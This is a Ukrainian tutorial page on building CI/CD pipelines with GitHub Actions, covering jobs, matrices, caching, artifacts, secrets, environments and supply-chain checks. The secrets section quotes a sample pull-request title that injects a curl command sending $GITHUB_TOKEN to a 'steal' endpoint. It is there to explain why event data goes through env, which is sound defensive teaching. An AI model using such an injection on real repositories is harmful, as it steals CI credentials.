

# CI/CD на GitHub Actions

## Проблема { #problem }

«На моєму комп'ютері працює» не означає, що працює на чистій машині, на іншій версії Python, з PostgreSQL замість SQLite. І вже точно не означає, що на сервер потрапить саме той код, який перевіряли. CI (continuous integration) запускає перевірки на кожну зміну. CD (continuous delivery/deployment) робить з перевіреного коміту артефакт, наприклад образ, і доставляє його. На [кроці 12](../tutorials/12_ci_cd/index.md) збудовано CI/CD News Hub: тригери й `paths`, `concurrency`, дві версії Python, мінімальні версії залежностей, PostgreSQL у `services`, `mypy`, smoke-тест стеку, права `GITHUB_TOKEN`, публікація в `ghcr.io`. Ця сторінка описує GitHub Actions загалом: граф jobs і їхні виходи, матрицю з `include`, кеш і артефакти, environments з підтвердженням людиною, а також перевірку workflow до push.

## Ментальна модель { #mental-model }



**Workflow** — граф **jobs**. Кожен job — окрема чиста машина, тому дані між jobs передаються явно: через `outputs` (короткі рядки) або артефакти (файли). `needs` задає порядок, `if` вирішує, чи запускати job. **Environment** — шлюз перед деплоєм: власні секрети, правила й, за потреби, підтвердження людиною.

Приклад сторінки — [`examples/docker_ci/workflows/ci.yml`](https://github.com/NikoriakViktor/news_hub/blob/main/examples/docker_ci/workflows/ci.yml): lint → тести в матриці з Redis → образ → деплой на staging і production.

!!! warning "Що перевірено"
    Приклад **не запускався на GitHub**: він лежить поза `.github/workflows/`, і GitHub його не бачить. Файл
    перевірено `actionlint` 1.7.12 разом із shellcheck (0 помилок), а тести застосунку (`pytest`), які він
    запускає, пройдено локально з Redis і без нього. Як це працює на справжньому прогоні, видно на workflow
    News Hub ([крок 12](../tutorials/12_ci_cd/order_and_parallel.md#waves)).

## Події { #triggers }

```yaml title="ci.yml (фрагмент)"
on:
  push:
    branches: [main]
    tags: ["v*"]                       # випуск: git tag v1.2.0 && git push --tags
  pull_request:                        # PR у будь-яку гілку
  workflow_dispatch:                   # кнопка «Run workflow» у вкладці Actions
    inputs:
      deploy: { description: "Після збірки задеплоїти на staging", type: boolean, default: false }
```

- **`pull_request`** запускає код з PR з **обмеженими правами**: для PR з форку `GITHUB_TOKEN` лише читає, секретів немає. Це правильний тригер для перевірок.
- **`pull_request_target`** запускає workflow з гілки, **куди** вливають PR, з повними правами й секретами. Якщо в ньому зробити `checkout` коду з PR і запустити його, чужий код отримає твої секрети. Його використовують лише для дій без чужого коду: мітки, коментарі.
- **`schedule`** (`cron: "0 3 * * 1"`) — нічні перевірки з новими версіями залежностей. Час у UTC, і запуск може запізнюватися.
- `branches`, `paths` і `concurrency` для PR розібрано на [кроці 12: коли CI запускається](../tutorials/12_ci_cd/triggers.md#pull-request).

## Jobs: `needs`, `if`, `outputs` { #jobs }

```yaml title="ci.yml (фрагмент)"
  image:
    needs: test
    outputs:
      digest: ${{ steps.build.outputs.digest }}       # крок з id: build
  deploy-production:
    needs: image                                      # не deploy-staging — див. нижче
    if: startsWith(github.ref, 'refs/tags/v')
    steps:
      - env:
          IMAGE: ghcr.io/${{ github.repository }}/example-app@${{ needs.image.outputs.digest }}
```

- **`outputs`** — рядки, які job віддає наступним через `needs.<job>.outputs.<ім'я>`. Тут це digest образу (`sha256:…`): деплой бере **той самий** образ, що зібрано й перевірено, а не «останній з тегом».
- **Пропущений `needs` пропускає й залежний job.** На тег `v*` job `deploy-staging` пропущено (його `if` вимагає `main`). Якби production залежав від staging, його теж було б пропущено, і реліз ніколи б не задеплоївся. Тому production залежить від `image`. Обійти правило можна через `if: always() && needs.x.result != 'failure'`, але це легко зробити неправильно.
- **Функції статусу.** Без них `if` неявно містить `success()`. `if: always()` запускає крок навіть після падіння (звіти, прибирання), `if: failure()` — лише після падіння (сповіщення), `if: cancelled()` — після скасування.
- Хвилі паралельних jobs, ціна паралельності й `timeout-minutes` — [крок 12: порядок і паралельність](../tutorials/12_ci_cd/order_and_parallel.md#needs).

## Матриця { #matrix }

```yaml title="ci.yml (фрагмент)"
    continue-on-error: ${{ matrix.experimental }}
    strategy:
      fail-fast: false
      matrix:
        python: ["3.10", "3.13"]
        experimental: [false]
        include:
          - python: "3.14"
            experimental: true
```

Матриця — декартовий добуток: `python × experimental` = 2 jobs. Далі `include` для кожного запису шукає комбінацію, яку можна доповнити, **не змінюючи** наявних значень. `python: "3.14"` змінив би значення, тому стає **новою** комбінацією. Разом виходить 3 jobs:

| job | `matrix.python` | `matrix.experimental` | падіння блокує PR? |
|---|---|---|---|
| pytest · Python 3.10 | 3.10 | false | так |
| pytest · Python 3.13 | 3.13 | false | так |
| pytest · Python 3.14 | 3.14 | true | ні (`continue-on-error`) |

- **`exclude`** прибирає комбінації з добутку, наприклад `{os: windows-latest, python: "3.10"}`.
- **`fail-fast: false`** — упала одна версія, решта доходять до кінця. Так видно, чи проблема в одній версії, чи в усіх. За замовчуванням `true`: перше падіння скасовує інших.
- **Версії Python — рядками.** `3.10` без лапок YAML прочитає як число `3.1`.
- **`max-parallel`** обмежує, скільки комбінацій ідуть одночасно, якщо, наприклад, вони ділять зовнішній ресурс.
- Чому саме ці дві версії й що ще дає перевірка мінімальних версій залежностей — [крок 12: що саме перевіряти](../tutorials/12_ci_cd/what_to_check.md#matrix).

## `services` { #services }

```yaml title="ci.yml (фрагмент)"
    services:
      redis:
        image: redis:7-alpine
        ports: ["6379:6379"]
        options: >-
          --health-cmd "redis-cli ping"
          --health-interval 5s
    env:
      REDIS_URL: redis://localhost:6379/0
```

- Контейнер стартує до першого кроку, і runner **чекає healthcheck** з `options`. Без нього тести можуть стартувати раніше за Redis.
- Job працює на машині, а не в контейнері, тож адреса — `localhost:порт` з `ports`. Якщо сам job запущено в контейнері (`container:`), адреса — ім'я сервісу (`redis:6379`), як у Compose.
- `services` працюють лише на Linux-раннерах.
- PostgreSQL у `services`, `alembic check` і чому SQLite у тестах цього не замінює — [крок 12](../tutorials/12_ci_cd/what_to_check.md#postgres).

## Кеш { #cache }

Кеш зберігає між прогонами те, що довго завантажувати і легко відновити: пакети pip, шари Docker. Його знаходять за **ключем**.

```yaml title="ci.yml (фрагмент)"
      - uses: actions/setup-python@v6
        with:
          python-version: ${{ matrix.python }}
          cache: pip
          cache-dependency-path: ${{ env.APP_DIR }}/requirements*.txt   # ключ — хеш цих файлів
```

```yaml title=".github/workflows/docs.yml (фрагмент)"
      - run: echo "cache_id=$(date --utc '+%V')" >> $GITHUB_ENV      # номер тижня
      - uses: actions/cache@v4
        with:
          key: mkdocs-material-${{ env.cache_id }}
          path: ~/.cache
          restore-keys: |
            mkdocs-material-
```

- **Ключ має змінюватися разом з тим, що кешуєш.** Хеш `requirements*.txt` змінився — кеш pip збирається заново. У `docs.yml` ключ — номер тижня: кеш оновлюється раз на тиждень.
- **`restore-keys`** — запасний префікс. Точного ключа немає, тож береться найсвіжіший кеш з префіксом `mkdocs-material-`, а наприкінці job зберігається новий.
- **Кеш шарів Docker**: `cache-from: type=gha` і `cache-to: type=gha,mode=max` у `docker/build-push-action` зберігають шари в кеші Actions. Без них кожен прогін встановлює залежності з нуля, бо машина щоразу чиста.
- **Кеш — не для результатів.** Його можуть витіснити (обмеження обсягу на репозиторій), і job не повинен від нього залежати. Результати, потрібні далі, передають артефактами.

## Артефакти { #artifacts }

```yaml title="ci.yml (фрагмент)"
      - run: pytest -q --junitxml=junit-${{ matrix.python }}.xml
      - uses: actions/upload-artifact@v4
        if: always()                     # звіт потрібен саме тоді, коли тести впали
        with:
          name: junit-${{ matrix.python }}
          path: ${{ env.APP_DIR }}/junit-*.xml
          retention-days: 7
```

| | Кеш | Артефакт |
|---|---|---|
| для чого | прискорити наступні прогони | результат цього прогону: звіт, покриття, збірка |
| хто бачить | наступні прогони | людина у вкладці прогону, наступні jobs (`download-artifact`) |
| гарантія | може бути витіснений | зберігається `retention-days` |

- **`path` — від кореня робочої папки**, `defaults.run.working-directory` на `uses:` не діє. Звідси шлях `${{ env.APP_DIR }}/junit-*.xml`.
- **Ім'я — унікальне в межах прогону.** У матриці його роблять з `matrix.*`, інакше другий job впаде з конфліктом імен.
- Покриття як артефакт — вправа [кроку 12](../tutorials/12_ci_cd/checkpoint.md#coverage-artifact).

## Секрети, змінні, права { #secrets }

| Що | Де задається | У workflow |
|---|---|---|
| секрет репозиторію | Settings → Secrets and variables → Actions | `${{ secrets.DEPLOY_SSH_KEY }}`; у журналі — `***` |
| секрет environment | Settings → Environments → `production` → secrets | лише в jobs з `environment: production` |
| змінна (не секрет) | Settings → Secrets and variables → **Variables** | `${{ vars.DEPLOY_HOST }}` |
| тимчасовий токен | видається кожному прогону | `${{ secrets.GITHUB_TOKEN }}`, права — блок `permissions` |

`permissions: contents: read` на весь workflow і окремі права для окремого job — [крок 12: права](../tutorials/12_ci_cd/permissions_and_publish.md#permissions). Ще три правила:

- **Дані з події — лише через `env`, не в `run:` напряму.** `run: echo "${{ github.event.pull_request.title }}"` підставляє заголовок PR у текст скрипту ще до запуску shell. Заголовок `"; curl …/steal?t=$GITHUB_TOKEN #` стане командою. Через `env: TITLE: ${{ … }}` і `"$TITLE"` значення залишиться даними. Так само передано `IMAGE`, `SSH_KEY`, `HOST` у деплої прикладу.
- **Дії сторонніх авторів фіксують за SHA коміту**: `uses: owner/action@<40 символів SHA>`. Тег `v3` власник може перенести на інший код. Для `actions/*` і `docker/*` достатньо тегу основної версії, для невідомих авторів потрібен SHA.
- **OIDC замість довгоживучих ключів хмари.** `permissions: id-token: write` дозволяє job отримати короткоживучий токен, який AWS, GCP чи Azure обмінюють на доступ. Ключа в секретах тоді немає зовсім.

## Публікація образу { #image }

```yaml title="ci.yml (фрагмент)"
      - id: meta
        uses: docker/metadata-action@v5
        with:
          images: ghcr.io/${{ github.repository }}/example-app
          tags: |
            type=ref,event=pr                  # pr-42
            type=semver,pattern={{version}}    # 1.2.0 з тегу v1.2.0
            type=sha                           # sha-1a2b3c4
      - id: build
        uses: docker/build-push-action@v6
        with:
          push: ${{ github.event_name != 'pull_request' }}
```

- **PR лише збирає образ.** Так видно, що `Dockerfile` не зламано, а реєстр не засмічується образами з кожного PR. Від PR з форку push однаково не пройшов би: токен лише на читання.
- **Теги для людей, digest для машин.** `1.2.0` і `sha-…` зручні для читання й відкату. Деплой бере `@sha256:…` з `outputs`: тег можна перезаписати, digest — ні.
- **Сканування** (Trivy, Docker Scout) ставлять кроком між збіркою і push або окремим job над опублікованим digest ([сканування образу](docker_image.md#scan)).
- Логін у `ghcr.io` через `GITHUB_TOKEN`, ім'я пакета в нижньому регістрі, шлях від push до реєстру — [крок 12: публікація](../tutorials/12_ci_cd/permissions_and_publish.md#publish).

## Environments: шлюз перед деплоєм { #environments }

```yaml title="ci.yml (фрагмент)"
  deploy-production:
    environment:
      name: production
      url: https://example.com
    concurrency:
      group: deploy-production
      cancel-in-progress: false
```

Environment створюють у Settings → Environments, і він додає до job:

- **Правила захисту**: обов'язкові рецензенти (job чекає, доки людина натисне «Approve»), затримка перед стартом, дозволені гілки й теги. Деплой у production з довільної гілки неможливий, навіть якщо хтось змінив workflow.
- **Власні секрети.** Ключ SSH production видно лише jobs з `environment: production`, і лише після підтвердження.
- **Історію деплоїв** з посиланням `url` на сторінці репозиторію.
- **`concurrency` з `cancel-in-progress: false`** — два деплої не йдуть одночасно, і наступний **чекає** попередній, а не обриває його посередині. Для перевірок PR навпаки: `cancel-in-progress: true`, бо старий прогін уже не потрібен.

Деплоїти автоматично чи вручну і що для цього має перевіряти CI — [крок 12: деплоїти автоматично?](../tutorials/12_ci_cd/permissions_and_publish.md#auto-deploy).

## Ланцюг постачання: lock, вразливості, секрети { #supply-chain }

Тести перевіряють **твій** код. Але в образ потрапляють ще 80 чужих пакетів, а в історію git — усе, що будь-коли комітили. Окремий job перевіряє саме це. Приклад — job `supply-chain` у [`news_hub.yml`](https://github.com/NikoriakViktor/news_hub/blob/main/.github/workflows/news_hub.yml) (крок 12):

```yaml title=".github/workflows/news_hub.yml (фрагмент)"
  supply-chain:
    name: залежності й секрети
    steps:
      - uses: actions/checkout@v5
        with:
          fetch-depth: 0             # уся історія: секрет, видалений наступним комітом, у git лишається
      - uses: astral-sh/setup-uv@v6
      - name: requirements.lock відповідає requirements.txt
        # uv бере версії з наявного lock: файл змінюється, лише коли змінився requirements.txt
        run: |
          uv pip compile requirements.txt --universal --python-version 3.10 --generate-hashes -o requirements.lock
          git diff --exit-code -- requirements.lock
      - name: відомі вразливості в залежностях образу (pip-audit, база PyPA)
        run: uvx pip-audit==2.10.1 -r requirements.lock --require-hashes --disable-pip --progress-spinner off
      - name: секрети в історії git (gitleaks; навчальні значення — .gitleaks.toml)
        working-directory: .
        run: >-
          docker run --rm --user "$(id -u):$(id -g)" -v "$PWD:/repo:ro"
          ghcr.io/gitleaks/gitleaks:v8.30.1 git /repo --config /repo/.gitleaks.toml --redact --no-banner
  ...
  publish:
    needs: [tests, min-versions, postgres, types, supply-chain, docker]
```

**1. Lock синхронізований з `requirements.txt`.** Образ встановлює залежності з `requirements.lock` з `--require-hashes` ([образ](docker_image.md#news-hub)). Якщо хтось додав залежність у `requirements.txt` і забув перегенерувати lock, у CI все виглядатиме нормально, а на сервер поїдуть старі пакети. Перевірка використовує властивість `uv pip compile`: якщо файл `-o` уже існує, uv **віддає перевагу версіям, які в ньому записані**, поки вони задовольняють вимоги. Тому повторна генерація не «підтягує» нові релізи, а відтворює той самий файл. `git diff --exit-code` падає лише тоді, коли lock справді розійшовся з `requirements.txt`. У копії кроку 12:

```text
$ uv pip compile requirements.txt --universal --python-version 3.10 --generate-hashes -o requirements.lock   # без змін
lock in sync                                                       ← файл байт у байт той самий

$ echo 'tenacity>=8' >> requirements.txt && uv pip compile … -o requirements.lock
<     # via google-genai
>     # via
>     #   -r requirements.txt
>     #   google-genai
exit=1                                                             ← tenacity уже був транзитивно, але lock змінився
```

Без наявного `-o` файла uv обрав би найновіші версії, і перевірка падала б з кожним новим релізом на PyPI. Щоб оновити залежності свідомо, запускають `uv pip compile … --upgrade` (або `--upgrade-package ім'я`) і комітять новий lock.

**2. Відомі вразливості.** `pip-audit` звіряє точні версії з lock з базою вразливостей Python-пакетів. `--require-hashes` і `--disable-pip` означають, що він бере версії саме з файла, нічого не розв'язуючи заново:

```text
$ uvx pip-audit==2.10.1 -r requirements.lock --require-hashes --disable-pip --progress-spinner off
No known vulnerabilities found
```

Це результат на день запуску. Завтра для тих самих версій може з'явитися CVE, і job упаде без жодної зміни в коді. Так і має бути: потрібно оновити пакет. Пакети Debian з базового образу `pip-audit` не бачить. Для них потрібен сканер образу ([сканування](docker_image.md#scan)).

**3. Секрети в історії.** `gitleaks git` перевіряє **всі коміти**, а не лише поточні файли. Секрет, видалений наступним комітом, лишається в історії, і його бачить кожен, хто клонував репозиторій. Тому `fetch-depth: 0`: за замовчуванням `actions/checkout` бере лише останній коміт, і сканер не побачив би історії. `--redact` не друкує знайдене значення в журнал CI, а `:ro` монтує репозиторій лише для читання. Повтор локально (з кореня репозиторію):

```text
$ docker run --rm -v "$PWD:/repo:ro" ghcr.io/gitleaks/gitleaks:v8.30.1 git /repo --config /repo/.gitleaks.toml --redact --no-banner
INF 25 commits scanned.
INF scanned ~5916657 bytes (5.92 MB) in 18.1s
INF no leaks found
```

[`.gitleaks.toml`](https://github.com/NikoriakViktor/news_hub/blob/main/.gitleaks.toml) вмикає стандартні правила (`useDefault = true`) і дозволяє лише чотири **точні** навчальні значення: JWT з `alg: none` з тестів, демо-токен, одноразовий `JWT_SECRET` перевірочного стеку, явно підроблений секрет прикладу. Дозвіл за точним рядком, а не за папкою `tests/` чи `docs/`: справжній секрет, покладений туди, сканер однаково знайде. Якщо сканер знайшов справжній секрет, видалити його з історії недостатньо. Секрет змінюють і вважають скомпрометованим.

**4. Публікація чекає.** `supply-chain` стоїть у `needs` job `publish`. Образ з розсинхронізованим lock, з відомою вразливістю чи після коміту з секретом не потрапить у `ghcr.io`.

## Перевірка до push: `actionlint` { #actionlint }

Помилку у workflow зазвичай видно лише після push: прогін не стартує або падає через хвилину. [`actionlint`](https://github.com/rhysd/actionlint) перевіряє файл локально: синтаксис, назви jobs у `needs`, контексти виразів, права, а з shellcheck — і скрипти в `run:`.

```text
$ actionlint workflows/ci.yml
$ echo $?
0

$ actionlint workflows/broken.yml
workflows/broken.yml:7:3: unknown permission scope "package". all available permission scopes are "actions", …, "packages", … [permissions]
workflows/broken.yml:17:31: property "pyhton" is not defined in object type {python: number} [expression]
workflows/broken.yml:18:30: "github.event.pull_request.title" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. … [expression]
workflows/broken.yml:19:3: job "deploy" needs job "tests" which does not exist in this workflow [job-needs]
```

[`workflows/broken.yml`](https://github.com/NikoriakViktor/news_hub/blob/main/examples/docker_ci/workflows/broken.yml) містить чотири помилки. GitHub відхилить лише дві з них: невідомий дозвіл і `needs` на неіснуючий job (workflow не запуститься). Дві інші пройдуть мовчки. `matrix.pyhton` стане порожнім рядком, і обидва jobs виконаються на версії Python за замовчуванням. Заголовок PR потрапить у скрипт як код.

Встановити: `pip install actionlint-py` (готовий бінарний файл) або завантажити з релізів. YAML-синтаксис без правил Actions перевіряє і `python -c "import yaml; yaml.safe_load(open('ci.yml'))"`, але змістових помилок він не бачить.

## У News Hub { #news-hub }

| Механізм | У workflows репозиторію | Де розібрано |
|---|---|---|
| події, `paths`, `concurrency` | `news_hub.yml`, `steps.yml`: PR без `branches`, `paths` з самим workflow | [крок 12: тригери](../tutorials/12_ci_cd/triggers.md) |
| `needs`, `if` | `docker` після `tests`; `publish` після всіх і лише на push у `main` | [крок 12: порядок](../tutorials/12_ci_cd/order_and_parallel.md) |
| матриця | `python: ["3.10", "3.13"]`, `fail-fast: false`; у `steps.yml` — 13 папок | [крок 12: що перевіряти](../tutorials/12_ci_cd/what_to_check.md#matrix) |
| `services` | PostgreSQL 16 і Redis 7 з healthcheck | [крок 12](../tutorials/12_ci_cd/what_to_check.md#postgres) |
| кеш | `setup-python` з `cache: pip`; у `docs.yml` — `actions/cache` з тижневим ключем | — |
| права | `contents: read`; `packages: write` лише в `publish`; `docs.yml` — `contents: write` для `gh-pages` | [крок 12: права](../tutorials/12_ci_cd/permissions_and_publish.md#permissions) |
| секрети | справжніх немає; пароль smoke генерується й маскується (`::add-mask::`); gitleaks сканує всю історію | [крок 12: секрети](../tutorials/12_ci_cd/permissions_and_publish.md#secrets) |
| образ | `metadata-action` (`type=sha`, `latest`) + `build-push-action` у `ghcr.io`; `publish` чекає й на `supply-chain` | [крок 12: публікація](../tutorials/12_ci_cd/permissions_and_publish.md#publish) |
| ланцюг постачання | job `supply-chain`: lock синхронізований з `requirements.txt`, `pip-audit` по lock, gitleaks з `fetch-depth: 0`; `paths` містять і `.gitleaks.toml` | [вище](#supply-chain) |

Чого в News Hub немає: артефактів (лише вправа), кешу шарів Docker (`cache-from`), environments і автоматичного деплою. Деплой ручний, як на кроці 11.

## Типові помилки { #mistakes }

| Помилка | Наслідок | Як правильно |
|---|---|---|
| `${{ github.event.* }}` прямо в `run:` | ін'єкція команд через заголовок PR чи назву гілки | через `env:` і `"$VAR"` |
| `pull_request_target` + `checkout` коду з PR | чужий код із секретами й правами запису | `pull_request` для перевірок |
| `permissions` не задано | права токена за налаштуванням репозиторію, у старих — запис | `contents: read` на весь workflow |
| `python-version: 3.10` без лапок | ставиться Python 3.1 або помилка | `"3.10"` |
| job залежить від пропущеного job | пропущений і він, деплой не стався | залежність від того, що справді виконалось |
| `path` артефакту відносно `working-directory` | `No files were found` | шлях від кореня репозиторію |
| однакове ім'я артефакту в матриці | конфлікт при завантаженні | ім'я з `matrix.*` |
| деплой за тегом `latest` | на сервер потрапляє не той образ, що перевіряли | digest з `outputs` |
| gitleaks після `actions/checkout` за замовчуванням | перевірено лише останній коміт, секрет з історії не знайдено | `fetch-depth: 0` |
| перевірка lock генерацією в новий файл | падає з кожним новим релізом на PyPI | генерувати в той самий `-o requirements.lock` і `git diff --exit-code` |
| `cancel-in-progress: true` для деплою | деплой обірвано посередині | `false` для деплою, `true` для перевірок PR |
| тест «зелений» через `|| true` | CI нічого не перевіряє | [крок 12: зелений CI, що нічого не перевіряє](../tutorials/12_ci_cd/what_to_check.md#or-true) |

## Налагодження { #debugging }

| Симптом | Що робити |
|---|---|
| workflow не запустився | `on`, `branches`, `paths`; вкладка Actions показує помилку розбору файла |
| job «Skipped» | його `if` або пропущений `needs`; дивись граф прогону |
| помилка виразу чи порожнє значення | `actionlint`; крок `run: echo '${{ toJSON(matrix) }}'` (лише для несекретних контекстів) |
| тест падає лише в CI | інша версія Python чи залежностей, немає сервісу; відтвори в контейнері: `docker run --rm -v "$PWD":/w -w /w python:3.10 …` |
| кеш не відновлюється | ключ змінився: дивись `Cache restored from key` / `Cache not found` у журналі кроку |
| деталі виконання | Re-run jobs → «Enable debug logging» (`ACTIONS_STEP_DEBUG`) |
| `Resource not accessible by integration` | токену бракує дозволу в `permissions` |

## Безпека { #security }

- **Найменші права**: `contents: read` за замовчуванням, запис — окремому job і лише там, де код уже перевірено (push у `main`, тег).
- **Секрети — у Secrets чи environment**, ніколи у файлі. Для PR з форку секретів немає, і це правильно.
- **Дані події — через `env:`.** Заголовок PR, назва гілки, текст коментаря задаються ззовні.
- **Сторонні дії — за SHA.** Перевіряй, хто автор дії і що вона робить з токеном.
- **Залежності — з lock і хешами**, перевірені на відомі вразливості до публікації; історія git — на секрети ([ланцюг постачання](#supply-chain)).
- **Деплой — через environment з правилами**: рецензенти, дозволені гілки, власні секрети.
- **Доступ CI до сервера — окремий ключ** з мінімальними правами (лише `docker compose pull && up`), а не особистий ключ адміністратора.

## Питання { #questions }

1. Чим `pull_request` відрізняється від `pull_request_target` з погляду безпеки?
2. Як передати digest образу з job `image` у job деплою?
3. Чому `deploy-production` залежить від `image`, а не від `deploy-staging`?
4. Скільки jobs дасть матриця прикладу і чому `include` з `python: "3.14"` додав новий?
5. Чим кеш відрізняється від артефакту?
6. Чому `run: echo "${{ github.event.pull_request.title }}"` небезпечний і як правильно?
7. Що дає `environment: production` понад звичайний job?
8. Чому для деплою `cancel-in-progress: false`?
9. Які дві помилки з `broken.yml` GitHub не покаже?

??? success "Відповіді"

    1. `pull_request` виконує код PR з обмеженим токеном і без секретів (для форків); `pull_request_target` виконується з повними правами й секретами цільової гілки — запускати в ньому код з PR небезпечно.
    2. `outputs` job (`digest: ${{ steps.build.outputs.digest }}`) і `needs.image.outputs.digest` у залежному job.
    3. На тег staging пропущено, а пропущений `needs` пропускає й залежний job: production не задеплоївся б ніколи.
    4. Три: 2 × 1 з добутку і ще одна, бо `python: "3.14"` змінив би наявне значення, тож `include` додає нову комбінацію.
    5. Кеш прискорює наступні прогони і може бути витіснений; артефакт — результат цього прогону з гарантованим строком зберігання.
    6. Вираз підставляється в текст скрипту до запуску shell: заголовок стає кодом. Правильно — `env: TITLE: ${{ … }}` і `"$TITLE"`.
    7. Правила захисту (рецензенти, гілки), власні секрети, історію деплоїв і `url`.
    8. Деплой, обірваний посередині, лишає сервер у невідомому стані; наступний має чекати.
    9. `matrix.pyhton` (порожній рядок — Python за замовчуванням) і заголовок PR у `run:` (ін'єкція).

## Що далі { #next }

[Мікросервіси: коли варто](microservices.md) — CI зібрав образ одного застосунку; коли таких застосунків має стати кілька і що за це доведеться заплатити.

**Джерела:** GitHub Docs — [Workflow syntax for GitHub Actions](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax) (розділи «jobs.<job_id>.needs», «jobs.<job_id>.outputs», «jobs.<job_id>.strategy.matrix», «jobs.<job_id>.services», «concurrency»), [Events that trigger workflows](https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows), [Dependency caching](https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching), [Store and share data with workflow artifacts](https://docs.github.com/en/actions/tutorials/store-and-share-data), [Managing environments for deployment](https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/manage-environments), [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use); Docker — [Cache management with GitHub Actions](https://docs.docker.com/build/ci/github-actions/cache/), [docker/metadata-action](https://github.com/docker/metadata-action); [actionlint](https://github.com/rhysd/actionlint).
